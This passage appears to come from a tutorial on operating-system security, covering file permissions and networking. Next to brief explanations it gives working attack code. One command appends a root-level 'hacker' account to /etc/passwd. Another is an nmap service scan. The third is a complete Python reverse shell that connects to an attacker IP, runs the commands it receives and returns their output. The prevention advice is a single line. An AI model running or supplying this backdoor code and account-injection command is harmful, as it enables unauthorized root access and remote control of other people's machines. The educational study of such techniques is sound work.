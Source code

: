 

---

3. File System Management

The OS organizes files into a hierarchy of directories and enforces permissions for security.

Practical File Permissions

Linux example:
```
ls -l /etc/passwd
```
Output:

-rw-r--r-- 1 root root 1234 Nov 23 14:00 /etc/passwd

Exploitation: An attacker might exploit weak permissions to overwrite critical files, like sudoers.


Example: Adding a User in Linux

An attacker might exploit access to /etc/passwd to add a new root user:
```
echo 'hacker:x:0:0:Hacker:/root:/bin/bash' >> /etc/passwd

```
Prevention: Use tools like chmod to set strict file permissions.



---

4. Networking

The OS provides a stack for network communication (e.g., TCP/IP).

Example: Scanning Open Ports

Attackers often scan for open ports to identify running services.

Using nmap:
```
nmap -sV 192.168.1.1

```
Exploitation: Creating a Backdoor

Using a simple Python reverse shell:
```
import socket
import os
import subprocess

host = "192.168.1.100"  # Attacker's IP
port = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

while True:
    command = s.recv(1024).decode("utf-8")
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode("utf-8"))

```
Explanation: The attacker gains remote access to the target machine.
